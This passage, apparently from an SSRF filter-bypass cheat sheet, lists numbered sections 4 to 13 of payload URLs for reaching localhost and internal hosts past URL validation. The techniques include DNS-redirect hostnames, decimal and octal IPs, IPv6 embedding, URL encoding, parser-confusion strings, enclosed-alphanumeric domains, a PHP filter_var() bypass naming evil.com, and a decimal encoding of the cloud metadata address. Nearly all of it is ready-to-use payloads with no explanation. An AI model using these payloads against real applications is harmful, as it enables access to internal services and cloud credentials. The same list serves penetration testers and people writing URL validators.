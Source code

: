 ```jsx
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
http://bugbounty.dod.network redirect to 127.0.0.2 == localhost

4-Bypass localhost with CIDR
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

5-Bypass using a decimal IP location
http://0177.0.0.1/
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/  = http://169.254.169.254

6-Bypass using IPv6/IPv4 Address Embedding
http://[0:0:0:0:0:ffff:127.0.0.1]

7-Bypass using malformed urls
localhost:+11211aaa
localhost:00011211aaaa

8-Bypass using rare address
http://0/
http://127.1
http://127.0.1

9-Bypass using URL encoding
http://127.0.0.1/%61dmin
http://127.0.0.1/%2561dmin

10-Bypass using tricks combination
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3

11-Bypass using enclosed alphanumerics
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿

12-Bypass filter_var() php function
0://evil.com:80;http://google.com:80/

13-Bypass against a weak parser
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```
